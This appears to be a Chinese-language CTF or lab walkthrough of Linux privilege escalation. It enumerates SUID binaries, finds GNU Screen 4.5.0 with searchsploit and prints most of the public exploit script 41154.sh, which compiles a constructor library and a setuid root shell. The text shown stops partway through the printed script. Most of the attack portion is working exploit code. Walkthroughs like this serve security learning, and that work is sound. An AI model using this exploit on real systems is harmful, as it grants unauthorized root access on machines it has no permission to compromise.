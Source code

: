 尝试suid提权

```
find / -perm -u=s -type f 2>/dev/null
```

![upload successful](https://lnng.top/images/pasted-208.png)

**upload successful**

  
GNU Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。  
GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。  
搜索漏洞

```
searchsploit screen 4.5.0
```

发现两个可利用的漏洞  

![upload successful](https://lnng.top/images/pasted-209.png)

**upload successful**

  
使用第一个  
先将41154.sh复制到桌面

```
cp /usr/share/exploitdb/exploits/linux/local/41154.sh 41154.sh

cat 41154.sh
```

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
```